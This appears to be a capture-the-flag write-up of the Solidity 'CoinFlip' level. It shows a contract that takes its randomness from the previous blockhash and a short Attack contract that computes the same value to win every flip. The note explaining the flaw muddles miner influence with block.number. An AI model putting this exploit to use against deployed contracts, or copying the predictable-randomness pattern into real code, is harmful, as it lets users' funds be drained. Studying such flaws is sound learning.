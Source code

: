 ## Coinflip

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
This is the coinflip main contract where the source of randomness is gotten onchain. Blockchain is deterministic and miners can manipulate the block.number because miners set the miner number during block creation. Random words should be gotten offchain. Chainlink can be used for randomness.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {CoinFlip} from "./coinflip.sol";

contract Attack{
    CoinFlip public flips;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _flip) {
        flips = CoinFlip(_flip);
    }

    function flip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        flips.flip(side);
    }
}
```